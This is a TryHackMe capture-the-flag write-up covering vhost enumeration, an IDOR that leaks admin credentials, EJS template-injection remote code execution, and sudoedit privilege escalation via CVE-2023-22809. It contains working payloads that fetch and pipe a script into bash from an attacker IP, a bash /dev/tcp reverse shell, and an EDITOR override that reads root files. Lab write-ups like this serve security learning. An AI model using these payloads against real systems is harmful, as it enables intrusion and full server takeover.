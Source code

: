 ```yaml
---
layout: post
title: testing
date: 2025-04-19
categories: [CTF, SSTI]
tags: [Tryhackme]
---
```


### Nmap
```
22/tcp open  ssh     syn-ack ttl 60 OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    syn-ack ttl 60 nginx 1.14.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.14.0 (Ubuntu)

```
Given creds from the challange `Olivia Cortez:olivi8`

# Enumeration

## HTTP (80)

### Dirsearch

- Nothing Intresting

### Vhost Fuzzing

```
www                     [Status: 200, Size: 252, Words: 19, Lines: 9, Duration: 167ms]
admin                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 167ms]
```

### admin.cyprusbank.thm

- Login page 
- `Olivia Cortez:olivi8` Using this credentials we can login

![[/assets/Images/WhiteR-Adm-panel.png]]

## IDOR in msg
![[Pasted image 20250417215321.png | 1000]]

```
Found these creds using IDOR

Gayle Bev : p~]P@5!6;rs558:q
```

Since Gayle is admin we can login as admin using these creds

## Found SSTI in `/settings` 

![[Pasted image 20250417230306.png | 1000]]
- We found ejs and found a RCE about that https://security.snyk.io/vuln/SNYK-JS-EJS-2803307

```
# SSTI Payload
name=test&password=test&settings[view%20options][outputFunctionName]=x;process.mainModule.require(%27child_process%27).execSync('curl http://10.17.49.29:8000');s
```
- We got a hit in our python server
![[Pasted image 20250417232348.png | 500]]

Shell.sh
```bash
bash -i >& /dev/tcp/10.17.49.29/9001 0>&1
```

payload
```
name=test&password=test&settings[view%20options][outputFunctionName]=x;process.mainModule.require(%27child_process%27).execSync('curl http://10.17.49.29:8000/shell.sh|bash');s
```
- we got a shell and user flag

# Privilege Escalation

```bash
sudo -l

(root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm

sudoedit -v
```

#### Sudo version 1.9.12p1 leads to a vulnerability

https://www.vicarius.io/vsociety/posts/cve-2023-22809-sudoedit-bypass-analysis

exploit
```
export EDITOR="vi -- /root/root.txt"

sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

- We got the root flag
